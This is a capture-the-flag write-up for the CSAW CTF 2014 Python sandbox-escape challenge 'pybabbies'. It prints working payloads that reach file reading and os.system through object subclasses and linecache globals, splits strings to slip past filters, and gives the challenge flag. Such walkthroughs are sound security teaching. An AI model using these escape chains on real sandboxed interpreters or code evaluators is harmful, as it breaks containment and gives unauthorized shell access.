



## CSAW CTF 2014
# Exploit 200 : pybabbies



You are provided a python file

This challnege basically revolves around this vulnerability https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/

Basically, a global variable "\_\_builtins\_\_" is initialized everytime python execution begins. This variable can potentially bypass filters and gain access to sensitive commands like "eval" or "openfile"

After some trial and error, I issued the following command to the program

```
print(().__class__.__bases__[0].__subclasses__()[40]("./key.txt").read())
```



It responded with

```
ALL YOUR FLAG ARE BELONG TO US. FIND WHERE I MOVED IT TO =)
catch_warnings = ().__class__.__base__.__subclasses__()[59]
linecache = catch_warnings.__enter__.__func__.__globals__['linecache']
o_s = linecache.checkcache.__globals__['o'+'s']
s_h = o_s.__dict__['sy'+'stem']('sh')
```

Take note of the last line, seems like its possible to open a system shell

Based on that, I issued the following command

```
print(().__class__.__base__.__subclasses__()[59].__enter__.__func__.__globals__['linecache'].checkcache.__globals__['o'+'s'].__dict__['sy'+'stem']('sh'))
```

and I got a shell!! After that just do a "ls" and "cat" the flag out



Flag is **flag{definitely_not_intro_python}**